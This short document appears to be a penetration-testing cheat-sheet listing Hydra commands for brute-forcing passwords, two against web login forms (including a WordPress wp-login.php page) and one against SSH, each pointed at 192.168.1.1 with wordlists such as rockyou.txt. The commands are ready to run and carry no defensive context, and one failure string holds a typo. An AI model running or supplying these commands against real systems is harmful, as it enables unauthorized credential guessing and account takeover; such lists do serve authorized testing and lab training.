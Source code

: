 #### Hydra HTTP-POST Bruteforcing Commands

#### * Post Web Form
```
hydra -l username -P <password_list> 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The passowrd you entered for the username" -t 30

hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```
#### * SSH
```
hydra -l username -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh 

```
